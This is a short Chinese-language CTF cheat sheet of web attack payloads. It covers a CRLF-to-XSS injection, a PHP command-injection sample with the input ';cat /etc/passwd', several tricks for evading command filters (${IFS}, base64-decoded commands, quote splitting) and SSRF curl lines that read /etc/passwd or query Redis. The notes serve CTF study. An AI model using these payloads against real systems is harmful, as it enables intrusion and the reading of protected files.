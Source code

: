 

```
index.php?url=http://example.com/%0aX-XSS-Protection:
%200%0a%0d%0a%0d<img%20src=1%20onerror=alert(/xss/)>

GET /index.php HTTP/1.1
Content-Type: text/html
Connection: close
Location: http://example.com/
X-XSS-Protection: 0
<img src=1 onerror=alert(/xss/)>
```

## 命令注入

```php
<?php
if (isset($_GET['ip'])) {
	$cmd = 'ping -c1 '.$_GET['ip'];
	system($cmd);
}

//index.php?ip=;cat /etc/passwd
```

绕过过滤

```shell
cat<>flag.txt
cat<flag.txt
cat${IFS}flag.txt

a=c;b=at;c=flag.txt;$a$b $c
`echo Y2F0IGZsYWcudHh0Cg==|base64 -d`
ca""t flag.txt
c""at fl""ag.txt
c\at fl\ag.txt
```

## order by

当需要判断的字段可以使用order by 时，可以利用脚本猜测。

类似题目：ctf.show_CTFshow web1

# SSRF

1. dict protocol (操作Redis)
   curl -vvv 'dict://127.0.0.1:6379/info'  

2. file protocol (任意⽂件读取)  

   curl -vvv 'file:///etc/passwd'  
